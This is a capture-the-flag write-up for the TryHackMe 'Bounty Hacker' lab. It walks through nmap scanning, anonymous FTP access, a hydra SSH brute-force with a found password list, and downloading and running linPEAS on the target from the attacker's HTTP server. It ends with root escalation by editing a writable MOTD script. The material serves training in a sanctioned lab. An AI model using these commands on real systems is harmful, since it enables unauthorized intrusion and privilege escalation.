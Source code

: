 # Bounty Hacker

# NOTE
I now have a blog where I post all of my write-ups, updates, and interesting topics.

You can find the URL for this writeup here: https://blog.hifumi1337.io/bounty-hacker-writeup/

## Disclaimer

This writeup is for a room located on **TryHackMe**. If you would like to attempt the room, please visit it [here](https://tryhackme.com/room/cowboyhacker).

## Description

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

# Task 1

Deploy the machine by clicking the **Deploy** button.

# Task 2

After the machine has finished booting up, run the following command to reveal the open ports on the network (If using personal Linux machine, remember to use **OpenVPN**):

```
$ nmap -sV -sC -Pn
```

After nmap is finished scanning, our output shows three open ports:

```
21 | ftp
22 | ssh
80 | http
```

# Task 3

Hint: Have you visited ftp?

Thanks to this hint, we know to use the ftp server that we found in the nmap scan. So for this to work, we need to use the following command:

```
$ ftp ${MachineIP}
```

To log into the ftp server, we will be using the **anonymous** username to access the ftp server. This was mentioned in the nmap scan.

After searching around the ftp, we find a file within the **dir** directory. We notice there's a text file called **task.txt**. We can view this file directly in the ftp terminal using the following command:

```
$ get task.txt -
```

We now have our username!

After finding this **task.txt** file, we will notice there is another file called **locks.txt**, and it looks like a bunch of strange passwords. Let's use the get command again to save this on our machine for a future task.

```
$ get locks.txt
```

# Task 4

Hint: What is on port 22?

This task is just looking for the service running on **port 22** (Check nmap scan output).

# Task 5

Hint: Hydra may be able to help.

Since we discovered the username, we can now ssh, but where is the password?

Remember that **locks.txt** file we discovered earlier in the ftp? It's now time to scan the file and find the password for our user!

Since the question mentions hydra, we are going to be using this command to find any available passwords for the user:

```
$ hydra -t 4 -V -l ${User} -P /usr/share/wordlists/locks.txt ssh://${machineIP}
```

Now that we've obtained the password, let's move on to finding the user.txt file for task 6!

# Task 6

To begin accessing the system, we have to ssh in with our credentials. We can use the following command to gain access:

```
$ ssh ${user}@${MachineIP}
```

We're in!

We can also run this within the targets terminal to see if we have root privileges:

```
$ sudo -l
```

After we run a simple command to see the available items in the directory, we see the **user.txt** file, which has our first flag!

Commands:

```
$ ls
$ cat user.txt
```

# Task 7

All that's left is to find the **root.txt** and complete the CTF!

The easiest way to accomplish this is by using **linPEAS** & a **python server**, so we're gonna start by getting a python server up and running with this command (Remember to do this in your root terminal, not as the user!):

```
$ sudo python3 -m http.server 80
```

Now to actually obtain the script. We need to create a directory (I called mine LinEnum), wget the actual linPEAS script from the GitHub repository, and then transfer the file over to the target machine to run the exploit.

Here are the commands I used (This can be done multiple ways):

```
$ mkdir LinEnum
$ cd LinEnum
$ wget "https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh"
```

Now we need to move back over to the users terminal, and we now have it saved on our server, so let's move it over to the target machine (Remember to use this command in the target's terminal).

Note: If using the THM cloud Kali Linux machine, the PrivateIP is available [here](https://tryhackme.com/my-machine).

```
$ wget "http://${PrivateIP}/linpeas.sh"
```

To make our **linPEAS** script executable, we simply do this command (Notice the color change when we run this command):

```
$ chmod +x linpeas.sh
```

**Time to run the script!**

```
$ ./linpeas.sh
```

After a few minutes, the script should finish running on the target machine. After sifting through all the returned results, we see a file called **/etc/update-motd.d/00-header** (Notice how it's highlighted).

After locating this file, it's time to change the directory over to it:

```
$ cd /etc/update-motd.d
$ ls -la
```

This will show us that the **00-header** file we found is actually owned by root.

The easiest way to do this is by using **nano**:

```
$ nano 00-header
```

Now that we have the file open, let's edit the file so that the next time we log in through **ssh**, we will see the **root.txt**!

For this, we just need to add the following command at the very bottom of the open file:

```
cat /root/root.txt
```

**ctrl + x to save the file**

After completing all the above tasks, all we have to do is log out of the ssh shell and log back in. You'll see the **root.txt** flag is located directly in the login terminal screen!

```
$ ssh ${user}@${MachineIP}
```

# Congratulations!

Shoutout to [Sevuhl](https://tryhackme.com/p/Sevuhl) for creating such a cool room!

# Extra

This room is based on an anime called **Cowboy Bebop** (One of my favorites!). You can check it out [here](https://www.imdb.com/title/tt0213338/).

<!--
## YouTube Version

I will be posting a video covering this writeup very soon! -->
